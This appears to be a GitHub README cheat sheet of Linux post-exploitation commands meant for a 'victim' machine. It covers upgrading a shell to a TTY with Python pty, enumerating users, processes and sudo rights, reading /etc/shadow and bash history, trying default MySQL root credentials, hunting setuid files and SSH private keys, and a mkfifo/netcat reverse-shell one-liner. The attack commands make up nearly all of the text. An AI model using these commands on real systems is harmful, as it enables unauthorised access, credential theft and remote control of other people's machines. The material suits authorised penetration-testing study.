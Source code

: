 ## getting a tty shell:-
python -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python -c ‘import pty; pty.spawn("/bin/sh")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
SHELL="/bin/bash" script -q /dev/null<br />

## getting a colored tty shell (after getting a tty shell):- 
#### *do this in your host machine because u need the length and breadth of the window of ur terminal*

stty -a <br />
#### *then do the following in the victim shell*<br />
export SHELL=/bin/bash<br />
export TERM=xterm256-color<br />
stty rows "rows u found in step1" columns "columns u found in step1"<br />

## Making the shell interactive:-

stty raw -echo

## the obvious stuff:-

history (to check the bash history)<br />
whoami (to check the current user)<br />
id <br />
hostname<br />
cat /etc/passwd<br />
sudo -l (to list all perms of the user)<br />
sudo --version (to check the version and see if it is vulnerable to any exploit)<br />

## about system and processes running:-

uname -a (to get the version of the kernel)<br />
cat /etc/shells 2>/dev/null (list available shells)<br />
ps aux 2>/dev/null<br />
find /etc/init.d/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (init.d files not belonging to root)<br />
find /lib/systemd/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (systemd files not belonging to root)<br />
mysql --version 2>/dev/null (to check the version of mysql if installed to check for any known vulnerabilities)<br />
mysqladmin -uroot -proot version 2>/dev/null (to check if default creds work)<br />
mysqladmin -uroot version 2>/dev/null (to check if no pass works)<br />
psql -V 2>/dev/null (to check the version of postgresql if installed to check for any known vulnerabilities)<br />

## about users:-

cat /etc/passwd 2>/dev/null<br />
lastlog (to get last login details of all user accounts)<br />
w (to check if any other user is currently logged on)<br />
cat /etc/group (to see if any user is part of other groups)<br />
cat /etc/shadow (if we r in the root or shadow group)<br />
cat /etc/master.passwd (same as /etc/shadow but for bsd)<br />
find /home -name .sudo_as_admin_successful 2>/dev/null (find who has sudoed earlier)<br />

## then find files owned by the user/group/root via the following:-

ls -l<br />
find / -user "username/root" -group "groupname" exec ls -lb 2>/dev/null<br />
locate "groupname"(sometimes can result in filenames having the groupname in it.....MIGHT BE INTERESTING!!)<br />

## then find files not owned by the user/group/root but have rights via the following:-

find / -readable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (read rights)<br />
find / -writable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (write rights)<br />
find / -executable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (executable rights)<br />
find / -user root -perm -4000 2>/dev/null (for getting setuid files)<br />
find / -user root -perm -2000 2>/dev/null (for getting all setgid files)<br />
find / \( -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" \) 2>/dev/null  (to get ssh info)<br />

## To download something from the internet or from intranet:-

Can do a wget or curl

## To get a netcat shell in bsd if -e flag is missing

mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f
